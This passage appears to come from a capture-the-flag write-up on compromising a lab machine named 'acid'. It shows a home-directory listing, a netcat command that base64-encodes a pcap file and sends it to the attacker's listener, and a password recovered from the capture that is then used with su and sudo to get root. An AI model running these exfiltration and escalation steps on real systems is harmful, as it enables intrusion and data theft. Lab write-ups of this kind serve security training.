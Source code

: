 /var/www/html/css/style.css
/home/acid
/home/acid/.xsession-errors.old
/home/acid/Public
/home/acid/.thumbnails
/home/acid/Desktop
/home/acid/.mozilla
/home/acid/.gconf
/home/acid/Videos
/home/acid/Templates
/home/acid/.config
/home/acid/Music
/home/acid/.profile
/home/acid/.bashrc
/home/acid/.sudo_as_admin_successful
/home/acid/Downloads
/home/acid/.xsession-errors
/home/acid/.dmrc
/home/acid/.Xauthority
/home/acid/.local
/home/acid/.local/share
/home/acid/.xscreensaver
/home/acid/.bash_history
/home/acid/.bash_logout
{% endcodeblock %}

The first file was suspicious, after copying to our server and simple analysis we found the following:
{% codeblock %}
root@kali32:~# nc -l -p 1399 > dump

www-data@acid:/$ base64 /sbin/raw_vs_isi/hint.pcapng | nc 192.168.80.137 1399

root@kali32:~# base64 -d dump > capfile

root@kali32:/var/www# tcpick -C -yU -r capfile | less -R
...
What was the name of the Culprit ???
saman and now a days he's known by the alias of 1337hax0r
oh...Fuck....Great...Now, we gonna Catch Him Soon :D
...
{% endcodeblock %}

Finally, we use the string `1337hax0r` as password:
{% codeblock %}
www-data@acid:/home/acid$ su saman

Password: 1337hax0r

saman@acid:/home/acid$ sudo su

[sudo] password for saman: 1337hax0r

  ____                            _         _       _   _
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/
